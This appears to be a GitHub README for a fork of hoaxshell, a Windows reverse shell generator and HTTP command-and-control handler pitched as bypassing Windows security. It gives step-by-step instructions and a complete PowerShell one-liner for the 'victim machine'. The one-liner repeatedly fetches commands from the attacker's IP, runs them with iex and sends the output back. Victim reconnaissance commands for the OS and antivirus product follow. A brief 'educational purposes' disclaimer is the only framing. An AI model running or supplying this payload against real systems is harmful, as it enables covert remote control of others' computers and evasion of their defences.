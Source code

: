 <h1 style="font-size:10vw" align="left">Bypassing an Active Windows Security</h1>

[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v5.1-blue">
<img src="https://img.shields.io/badge/Tested%20with-kali%20linux%202023.2-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
very grateful to the original author [t3l3machus](https://github.com/t3l3machus)


## Description
hoaxshell is a windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![bypass](https://github.com/asepsaepdin/hoaxshell/assets/122620685/a00ade63-5e5d-4663-80fd-b7e9b0d4c755)


## Step Guides
1. First, install all the requirements
```
sudo pip3 install -r requirements.txt
```
2. Make the script executable
```
chmod +x hoaxshell.py
```
3. Run the script and specify  the **-s 192.168.25.72** with the perpetrator's address
```
./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
```
4. Run the script in powershell on the victim machine with some obfuscation technique
```
$xxxxx='None';$s='192.168.25.72:8080';$i='7f588da6-a3488a4c-7fa96807';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7f588da6 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a3488a4c -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxxxx) {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/7fa96807 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8} 
```
6. Check the operating system information used by victim machine
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
5. And check the antivirus product used by victim machine
```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

## Exploit Requirements
- Python 3.11


## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
